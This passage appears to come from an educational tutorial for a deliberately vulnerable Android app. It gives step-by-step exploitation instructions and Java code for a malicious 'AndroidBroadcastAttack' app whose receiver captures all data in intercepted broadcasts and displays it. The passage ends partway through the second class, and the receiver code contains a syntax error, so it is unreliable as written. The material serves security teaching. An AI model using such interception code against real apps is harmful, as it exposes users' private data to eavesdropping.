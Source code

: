 ### Exploitation Instructions

We will see how this could be misused here.

1.	Run the app. We will see that the username is broadcasted below.

<img style="margin:10px;" src="https://github.com/dan7800/VulnerableAndroidAppOracle/blob/master/Pictures/Broadcast/image5.png" alt="Image">

2.	We will build a malicious app to intercept the messages that are broadcast. Any attacker could reverse engineer an app, read the manifest file, and build an app to intercept the broadcast actions the original app was receiving.
i.	Create a new app. Name it “AndroidBroadcastAttack”.
<img style="margin:10px;" src="https://github.com/dan7800/VulnerableAndroidAppOracle/blob/master/Pictures/Broadcast/image6.png" alt="Image">

ii.	Create two new classes, using the File > New > Java Class menu option.
1.	MyReceiver
2.	NewMessageNotification
iii.	MyReceiver.java will look something like this.
```java
import android.content.BroadcastReceiver;
import android.content.Context;
import android.content.Intent;
import android.os.Bundle;

/**
 * Created by hussienalrubaye on 3/6/16.
 */
public class  MyReceiver extends BroadcastReceiver {
@Override
public void onReceive(Context context, Intent intent) {
String DataBundel = "";
// get app the data sent on bundle
Bundle bundle= intent.getExtras();
//lopp through all keys in the bundle
for (String key : bundle.keySet()) {
// get object by key( we define object became it may be text or image or whatever
Object value = bundle.get(key);
//get all keys
DataBundel+= String.format("%s %s (%s)", key, value.toString(), value.getClass().getName());
}
//display notify message to the user
NewMessageNotification NotifyMe = new NewMessageNotification();
NotifyMe.notify(context, DataBundel, 123);
)
}
```
iv.	Insert the code into NewMessageNotification.java

```java
package com.example.androidbroadcastattack;

import android.annotation.TargetApi;
import android.app.Notification;
import android.app.NotificationManager;
import android.app.PendingIntent;
import android.content.Context;
import android.content.Intent;
import android.content.res.Resources;
import android.graphics.Bitmap;
import android.graphics.BitmapFactory;
import android.net.Uri;
import android.os.Build;
import android.support.v4.app.NotificationCompat;

/**
```